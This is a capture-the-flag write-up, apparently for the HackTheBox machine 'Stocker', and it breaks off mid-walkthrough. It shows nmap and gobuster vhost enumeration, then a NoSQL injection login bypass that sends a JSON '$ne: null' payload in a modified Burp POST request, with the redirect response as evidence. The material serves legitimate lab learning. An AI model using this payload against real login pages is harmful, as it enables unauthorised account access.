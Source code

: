 ## Enumeration
Ran the normal things necessary for enumeration: `nmap`scan, `gobuster dir` against `stocker.htb`
`nmap scan`:
```
# Nmap 7.92 scan initiated Sun Feb 12 19:18:31 2023 as: nmap -o stockernmap.txt -sCV -p- --min-rate=1000 10.10.11.196
Nmap scan report for 10.10.11.196
Host is up (0.085s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 12 19:19:35 2023 -- 1 IP address (1 host up) scanned in 64.40 seconds
```
"Did not follow redirect to http://stocker.htb" so I knew to add `stocker.htb` to my `/etc/hosts`

While I was manually going through the source code of `stocker.htb`, Brice recommended that I run some more automatic tools while I did so, so I could be efficient with my time. He hinted that `gobuster`has some other potentials beyond directory bruteforcing, and I remembered that it can also bruteforce for vhosts. Btw, `gobuster dir` returned nothing useful.

`gobuster vhost -w ~/wordlists/vhosts/bitquark-subdomains-top100000.txt -u stocker.htb`:
```===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://stocker.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /home/sohee/wordlists/vhosts/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/02/12 23:44:34 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb (Status: 302) [Size: 28]
```
This immediately found `dev.stocker.htb`! Brice informed me that I did also have to add this to my `/etc/hosts`. I was a bit confused considering that I thought it was similar to a subdomain (which it is), but a vhost is different in the fact that it can behave like a whole different domain on its own. So I added `dev.stocker.htb` next to `stocker.htb` in my `/etc/hosts`.

You don't need to put it on a different line (and how could you, considering that it has the same IP? lol :P )
`10.10.11.196    stocker.htb dev.stocker.htb` (my `/etc/hosts` as an example)

From here we were pointed to a login page at `dev.stocker.htb/login`. We looked around a bit in the source code, but found nothing too useful. Knowing that this was obviously some kind of a web app considering it has a login page, we used `Wappalyzer`, a browser extension tool to expand on our knowledge of the "stack" that the application was running on.

We learned that it was using `node.js`, as well as `Express`. Brice was trying to find out what the database part of the `Express` + `node.js`stack could be. We found out that `mongodb` is a popular and potential fit to the stack. `mongodb` is a type of `NoSQL` database. Knowing this, we searched up `NoSQL SQL injection`, and came across this page: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass

With our only point of entry, a login page, we directly went to the "exploit" portion of the page. So we have a potential "authentication bypass" exploit: `{"username": {"$ne": null}, "password": {"$ne": null}}`, but how, and where do we use this?

Using `BurpSuite`, we see that the `content-type` that the POST request is sending (expecting) is `application/x-www-form-urlencoded`.

Here is an example POST request when submitting creds to the login page.
```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AhPRUbfAp75ZE7xTFiFosByTl5Bl93LIY.VFML0zNqLn36JMe%2BCz8UEOmt4IfYocBmidSAOo%2FMLXg
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

So how can we change the data that it's expecting (`username=admin&password=admin`)? We can change the `Content-Type: application/x-www-form-urlencoded` to `Content-Type: application/json`! We change it to `json` because we are trying to submit json formatted data.

From here we use the repeater (Ctrl+R) to replicate the POST request and change the data being sent. 
```POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 54
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AhPRUbfAp75ZE7xTFiFosByTl5Bl93LIY.VFML0zNqLn36JMe%2BCz8UEOmt4IfYocBmidSAOo%2FMLXg
Upgrade-Insecure-Requests: 1

{"username": {"$ne": null}, "password": {"$ne": null}}
```
We get the following response:
```
HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 13 Feb 2023 07:26:46 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: close
X-Powered-By: Express
Location: /stock
Vary: Accept

<p>Found. Redirecting to <a href="/stock">/stock</a></p>
```
Visiting `dev.stocker.htb/stock` 
